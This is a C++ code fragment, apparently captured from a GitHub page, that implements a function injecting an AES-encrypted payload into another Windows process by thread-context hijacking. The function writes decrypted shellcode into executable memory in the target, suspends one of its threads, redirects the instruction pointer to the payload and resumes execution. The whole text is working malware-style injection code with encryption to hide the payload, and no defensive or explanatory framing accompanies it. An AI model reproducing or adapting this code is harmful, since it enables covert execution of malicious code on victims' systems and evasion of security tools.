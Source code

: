 ```c++
int InjectCTX(int pid, HANDLE hProc, unsigned char * payload, unsigned int payload_len) {

	HANDLE hThread = NULL;
	LPVOID pRemoteCode = NULL;
	CONTEXT ctx;

	// call FindThread() to locate a thread in target process
	hThread = FindThread(pid);
	if (hThread == NULL) {
		printf("Error, hijack unsuccessful.\n");
		return -1;
	}

	// decrypt payload
	AESDecrypt((char *) payload, payload_len, (char *) key, sizeof(key));
	
	// memory allocation
	pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
  
        // write payload to allocated memory
	WriteProcessMemory(hProc, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) NULL);

	// suspend thread
	SuspendThread(hThread);	
	ctx.ContextFlags = CONTEXT_FULL;
  
        // retrieve thread context
	GetThreadContext(hThread, &ctx);
  
#ifdef _M_IX86 
	ctx.Eip = (DWORD_PTR) pRemoteCode;
#else
	ctx.Rip = (DWORD_PTR) pRemoteCode;
#endif

        // hijack thread context
	SetThreadContext(hThread, &ctx);
  
	// execute payload
	return ResumeThread(hThread);	
```

